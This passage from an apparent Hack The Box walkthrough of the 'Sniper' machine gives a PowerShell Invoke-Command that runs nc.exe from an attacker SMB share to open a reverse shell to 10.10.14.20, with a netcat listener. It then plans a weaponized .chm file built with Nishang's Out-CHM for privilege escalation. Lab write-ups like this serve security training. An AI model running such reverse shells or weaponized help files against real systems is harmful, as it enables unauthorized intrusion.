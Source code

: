 Now we can perform a reverse shell with the same command as above.

```powershell
Invoke-Command -Credential $cred -ComputerName Sniper -ScriptBlock { \\10.10.14.20\smbFolder\nc.exe -e cmd 10.10.14.20 4445 }
```

```powershell
nc -lv 4445
```

![Untitled](/HTB/sniper-18.png)

We obtained access, let’s cat the **user’s flag**

![Untitled](/HTB/sniper-19.png)

## Escalating Privilege

Navigating through the directories we find a directory called c:\Docs

![Untitled](/HTB/sniper-20.png)

Inside we have a note.txt written by the CEO of Sniper Co.

> **note.txt**
> 
> 
> Hi Chris,
> Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
> 
> Regards,
> Sniper CEO.
> 

The CEO wants a app documentation and is waiting to chris to drop it inside the Docs directory.

If we return to chris folder there is a interesting file at downloads directory.

![Untitled](/HTB/sniper-21.png)

It’s a .chm file which is Windows help files, so that could be the documentation that the CEO was talking about.

![Untitled](/HTB/sniper-24.webp)

We know now that the CEO is waiting .chm file so let’s put a weaponized one in the docs directory.

I have used a Windows VM for this part as it’s necessary for the use of HTML Help Workshop which is a Windows program which help us to create .chm files.

First we need to install Out-CHM a [NisHang](https://github.com/samratashok/nishang/tree/master) tool which makes weaponized .chm with the help of HTML Help Workshop.
